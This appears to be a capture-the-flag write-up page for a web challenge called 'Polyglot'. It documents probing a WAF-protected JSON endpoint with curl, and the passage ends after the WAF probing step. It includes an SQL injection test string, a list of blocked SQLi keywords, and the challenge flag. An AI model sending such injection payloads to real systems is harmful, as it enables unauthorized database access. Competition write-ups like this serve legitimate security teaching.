

repository: cyscomvit/writeups · page: writeups/CyberConverge_2025/19-polyglot.html · generator: jekyll

---
layout: writeup

title: Polyglot
difficulty: hard
points: 400
categories: [web]
tags: []

flag: CBCV{0n3_p4Yl0AD_2_w0rLd5_4545}
---

### Polyglot

* Author: Prithvi

In this challenge, we are given a single endpoint behind a WAF:

```
http://20.244.12.130:8092/submit
```

The WAF blocks common SQL injection patterns (like `OR`, `AND`, `UNION`) and rejects malformed JSON. Our goal is to craft a payload that passes the WAF and retrieves the flag.

---

#### Step 1: Test basic input

We start by sending a normal JSON string:

```curl
curl -s -X POST http://20.244.12.130:8092/submit \
-H "Content-Type: application/json" \
-d '{"payload":"test"}'
```

Expected response:

```json
{ "status": "ok", "received_normalized": "test" }
```

- This confirms the endpoint accepts valid JSON and returns a normalized version of our payload.
- Malformed JSON triggers:

```json
{ "error": "invalid json" }
```

---

#### Step 2: Probe the WAF

Next, we try simple SQLi strings:

```curl
curl -s -X POST http://20.244.12.130:8092/submit \
-H "Content-Type: application/json" \
-d '{"payload":"admin' or '1'='1"}'
```

Output:

```json
{ "error": "blocked: sqli" }
```

- This indicates the WAF blocks literal `OR`.
- Other attempts like `AND`, `UNION`, or `--` are similarly blocked.

---
